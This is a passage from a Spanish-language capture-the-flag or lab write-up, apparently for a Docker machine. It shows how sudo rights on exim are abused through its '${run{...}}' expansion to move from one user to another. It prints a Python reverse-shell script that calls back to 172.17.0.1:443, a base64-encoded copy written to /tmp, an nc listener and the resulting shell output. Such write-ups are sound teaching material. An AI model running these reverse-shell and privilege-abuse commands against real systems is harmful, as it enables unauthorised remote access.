 Podemos ejecutar `exim` como el usuario `pepe`, por lo que podemos intentar ejecutar `bash` como este usuario, para ejecutar algún comando a través de `exim`, podemos hacerlo mediante el siguiente comando

~~~ bash
exim -be '${run{/usr/bin/id}}'
~~~

Crearemos un recurso que nos envíe una consola como el usuario `pepe`. Para esto, podemos hacer uso de un pequeño script que envíe un socket con `python3`

 ~~~ python
import socket, subprocess, os, pty
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.17.0.1", 443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("/bin/bash")
 ~~~

Enviaremos esto a un archivo `privesc` en el directorio `/tmp`, lo haremos de la siguiente manera

~~~ bash
maci@5c050710a415:/var/www/html/pruebasUltraSecretas$ echo "aW1wb3J0IHNvY2tldCwgc3VicHJvY2Vzcywgb3MsIHB0eQpzID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKCIxNzIuMTcuMC4xIiwgNDQzKSkKb3MuZHVwMihzLmZpbGVubygpLCAwKQpvcy5kdXAyKHMuZmlsZW5vKCksIDEpCm9zLmR1cDIocy5maWxlbm8oKSwgMikKcHR5LnNwYXduKCIvYmluL2Jhc2giKQ==" | base64 -d > /tmp/privesc.py && chmod +x /tmp/privesc.py
~~~ 

### Shell as `pepe`

Nos ponemos en escucha con `nc` por el puerto `443` para recibir la `shell`

~~~ bash
nc -lvnp 443
~~~

Ejecutamos la reverse shell que creamos anteriormente abusando de la capacidad que tenemos de ejecutar `exim` como el usuario pepe de la siguiente forma

~~~ bash
sudo -u pepe exim -be '${run{/bin/bash -c "python3 /tmp/privesc.py"}}'
~~~

Y estaríamos conectados como el usuario `pepe`, ahora finalmente nos queda escalar a `root`

~~~ bash
nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 33484
pepe@5c050710a415:/$ id
uid=1002(pepe) gid=1002(pepe) groups=1002(pepe),100(users)
pepe@5c050710a415:/$ 
~~~


## Getting a Fully TTY
